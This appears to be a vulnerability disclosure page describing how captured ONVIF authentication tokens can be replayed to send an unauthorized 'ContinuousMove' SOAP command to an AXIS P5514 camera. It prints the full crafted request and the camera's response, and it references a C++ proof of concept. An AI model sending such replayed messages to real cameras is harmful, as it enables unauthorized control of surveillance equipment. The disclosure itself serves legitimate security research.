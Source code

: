 # ContinuousMove Vulnerability of Axis 5514 Camera 

This page show the details of the vulnerability found in AXIS 5514 Camera. 

Description

Attacker can remotely make Axis 5514 camera turn around on Pan&Tilt without permission by a customized message. In order to customize and inject attacking messages, a PoC with C++ Language was developed to modify captured request messages with function “ContinuousMove” in <Soap:Body> under the ONVIF specification. The PoC source code "axis_5514_continuousmove.cpp" is also posted here. The raw message was captured on line by Wireshark. And I got the SOAP packets from client to the  AXIS-P5514 camera, and filtered out the authentication information in SOAP head, such as: <wsse:UsernameToken><wsse:Username> username </wsse:Username><wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce><wsu:Created>20XX-03-12T09:12:15Z</wsu:Created></wsse:UsernameToken>. After capturing such packets, use the authentication information above to customize a message with function “ContinuousMove” in <Soap:Body> and then send the modified message to the AXIS-P5514 camera. Then the Axis 5514 camera can continually move on Pan&Tilt. 

The customized message is likely as follow.
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tt="http://www.onvif.org/ver10/schema">  <s:Header xmlns:s="http://www.w3.org/2003/05/soap-envelope">    
<wsse:Security xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/ oasis-200401-wss-wssecurity-utility-1.0.xsd">      
<wsse:UsernameToken>        
<wsse:Username>username</wsse:Username>        
<wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce>        
<wsu:Created>20XX-03-12T09:12:15Z</wsu:Created>      
</wsse:UsernameToken>   
 </wsse:Security>  
</s:Header>  
  <s:Body xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <ContinuousMove xmlns="http://www.onvif.org/ver20/ptz/wsdl">
      <ProfileToken>profile_1_h264</ProfileToken>
      <Velocity>
        <PanTilt x="1" y="1" space="http://www.onvif.org/ver10/tptz/PanTiltSpaces/VelocityGenericSpace" xmlns="http://www.onvif.org/ver10/schema" />
      </Velocity>
      <Timeout>PT30S</Timeout>
    </ContinuousMove>
  </s:Body>
</soap:Envelope>

the response message is likely as follow.

HTTP/1.1 200 OK
Server: gSOAP/2.7
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 2940
Connection: close
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:c14n="http://www.w3.org/2001/10/xml-exc-c14n#" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:ds="http://www.w3.org/2000/09/xmldsig#" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:acert="http://www.axis.com/vapix/ws/cert" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:aa="http://www.axis.com/vapix/ws/action1" xmlns:acertificates="http://www.axis.com/vapix/ws/certificates" xmlns:aentry="http://www.axis.com/vapix/ws/entry" xmlns:aev="http://www.axis.com/vapix/ws/event1" xmlns:aeva="http://www.axis.com/vapix/ws/embeddedvideoanalytics1" xmlns:ali1="http://www.axis.com/vapix/ws/light/CommonBinding" xmlns:ali2="http://www.axis.com/vapix/ws/light/IntensityBinding" xmlns:ali3="http://www.axis.com/vapix/ws/light/AngleOfIlluminationBinding" xmlns:ali4="http://www.axis.com/vapix/ws/light/DayNightSynchronizeBinding" xmlns:ali="http://www.axis.com/vapix/ws/light" xmlns:apc="http://www.axis.com/vapix/ws/panopsiscalibration1" xmlns:arth="http://www.axis.com/vapix/ws/recordedtour1" xmlns:ascm="http://www.axis.com/vapix/ws/siblingcameramonitor1" xmlns:asd="http://www.axis.com/vapix/ws/shockdetection" xmlns:aweb="http://www.axis.com/vapix/ws/webserver" xmlns:tan1="http://www.onvif.org/ver20/analytics/wsdl/RuleEngineBinding" xmlns:tan2="http://www.onvif.org/ver20/analytics/wsdl/AnalyticsEngineBinding" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tev1="http://www.onvif.org/ver10/events/wsdl/NotificationProducerBinding" xmlns:tev2="http://www.onvif.org/ver10/events/wsdl/EventBinding" xmlns:tev3="http://www.onvif.org/ver10/events/wsdl/SubscriptionManagerBinding" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tev4="http://www.onvif.org/ver10/events/wsdl/PullPointSubscriptionBinding" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tnsaxis="http://www.axis.com/2009/event/topics"><SOAP-ENV:Header></SOAP-ENV:Header><SOAP-ENV:Body><tptz:ContinuousMoveResponse></tptz:ContinuousMoveResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>



References

https://www.axis.com/products/axis-p5514-e
